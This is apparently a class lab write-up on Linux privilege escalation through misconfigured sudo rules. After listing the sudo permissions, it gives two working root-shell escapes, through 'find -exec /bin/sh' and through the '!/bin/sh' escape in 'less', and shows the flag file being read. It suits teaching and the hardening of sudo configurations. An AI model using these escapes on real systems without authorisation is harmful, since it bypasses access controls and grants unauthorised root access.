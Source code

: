 
# Privesc with sudo permission

For this practical class, I have a direct SSH access with a low privilege account.

---

## Summary

1. [Sudo list](#sudo-list)
2. [Privilege escalation](#Privilege-escalation)

---

## Sudo list

We begin by listing sudo permissions with ```sudo -l``` command :

```
eleve@debian:~$ sudo -l
Entrées Defaults correspondant pour eleve sur debian :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

L'utilisateur eleve peut utiliser les commandes suivantes sur debian :
    (root) NOPASSWD: /usr/sbin/apache2, /usr/bin/find, /usr/bin/less, /usr/bin/more, /usr/sbin/tcpdump, /usr/bin/vim, /usr/bin/man
```

Here is the list : ```(root) NOPASSWD: /usr/sbin/apache2, /usr/bin/find, /usr/bin/less, /usr/bin/more, /usr/sbin/tcpdump, /usr/bin/vim, /usr/bin/man```
It means that we can use all of thoses commands with root privileges without needing to use password.

---

## Privilege escalation

And here we have a lot of choice for our privilege escalation, thanks to [GTFOBins](https://gtfobins.github.io/) we can see a list of command we can use in order to abuse all of thoses bad configurated sudo permissions.
Here is the detail for two weak points.

<details>

<summary>find privesc</summary>

We can use the ```find``` command in order to get a root shell :

```sudo find . -exec /bin/sh \; -quit```

It simply use the find command with sudo permission, and then escape from the find command in order to execute a shell, but this shell is executed as sudo, so with root permissions.

```
# whoami
root
```

Then we simply need to get our flag :

```
# cat  /root/flag.txt
Félicitations, vous êtes root !
```

---

</details>


<details>
  
<summary>less privesc</summary>

There is an another way with ```less``` to get a root shell.

Simply use the less command with sudo permission like this :

```
sudo less /etc/profile
```

Then use the exclamation point to escape and use a command :

```
!/bin/sh
```

And here we, executing again a shell with sudo permission so as root :

```
# whoami
root
```

Then we simply need to get our flag :

```
# cat  /root/flag.txt
Félicitations, vous êtes root !
```

---

</details>
